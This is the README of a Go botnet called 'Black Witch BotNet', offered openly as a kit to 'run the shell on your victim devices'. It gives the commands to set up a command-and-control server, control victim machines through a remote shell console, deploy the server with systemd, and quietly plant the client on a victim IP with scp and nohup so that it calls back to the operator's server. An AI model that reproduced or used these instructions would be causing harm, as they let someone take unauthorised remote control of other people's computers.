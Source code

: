 <img width="150px" src="https://blackwitchcoven.com/wp-content/uploads/2017/01/ccedb1918e81e3fcaad18aca53f8da7e.jpeg">

# Black Witch BotNet
#### The blank bundle to run the shell on your victim devices

We are welkome to open issue

## Usage
#### Generate server certificate and key
```
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout server.key -out server.crt
```
It's good enough to use self signed sertificate

#### Run the server (cmd/server)
```
server -addr-accept :7238 -sock-control unix.sock -cert server.crt -key server.key
```
The server will open TCP and UNIX socket. TCP on 7238 port for incoming client connactions and UNIX unix.sock for control client connections.


#### Run the client (cmd/client)
```
client -recon 1 -addr localhost:7238
```
This will run the client on the victim machine. For now you have to compile binary for os and arch victim.


To view all available options use -help on the server and client


## Control
To manage connected payloads you may use nc or something that can connect to the unix sock
```
nc -U tmp/unix.sock
```
```
socat - UNIX-CONNECT:unix.sock
```

You will see REPL console

To show all connections

```
<CC:#> show
```

This will return

```
ID: 0 Address: 213.32.33.33:42656
ID: 1 Address: 213.32.33.33:53622
```

Connect to connection
```
<CC:#> use 0
```

## Communicate with client payload
#### Syntax

```
event [hello|restart]
```

```
{shell} [{exec}|cd] command
```

Where {} is default and [] options

#### Event message

```
event hello
```

It's a system event connection health

```
event restart
```

Events return status

```
Status true
```

Restart the client (CURRENTLY NOT SUPPORTED)

#### Shell commands

Simple command is

```
<213.32.33.33:42656:#> pwd
```

And this will return stdout

```
/Users
```

To change the directory

```
<213.32.33.33:42656:#> cd /Users
```

Will return new directory path

```
/Users
```

So we have shell commands and event messages for the client

Client support hello and restart events

Shell support simple exec and change directory

#### Errors

When the executable isn't found

```
exec: "ll": executable file not found in $PATH
Error code 1
```

When you run executable incorrect

```
pwd: illegal option -- -
usage: pwd [-L | -P]
Exit 1
```

Return stderr and exit code

When you change dir that isn't exist

```
chdir test: no such file or directory
Error code 2
```

The last thing is command timeouts

We have 10 seconds timeout to run the command or error will return

```
run command timeout
Error code 0
```

Error codes

```
ErrorTimeout          = 0
ErrorCommand          = 1
ErrorChangeDir        = 2
ErrorUnknownRequest   = 3
ErrorUnknownShellType = 4
ErrorUnknownEventType = 5
```

## Production
#### Config server

Create directory

```
mkdir /opt/black
```

Upload or generate server key and crt to this dir

Then upload binary

Create systemd file and copy content from [example](https://github.com/andrewostroumov/black-witch-botnet/blob/master/systemd.service):

```
touch /etc/systemd/system/black-witch.service
```

And run systemd service

```
sudo service black-witch start
```

#### Upload client

Build client for target machine os and arch

```
GOOS=linux GOARCH=amd64 go build
```

Upload client through scp

```
scp client 33.33.33.33:/var/lib/ && ssh 33.33.33.33 "nohup /var/lib/client -addr 44.44.44.44:7328 -recon 5 > /dev/null 2>&1 &"
```

Where 33.33.33.33 is a victim ip and 44.44.44.44 is a your accept server ip
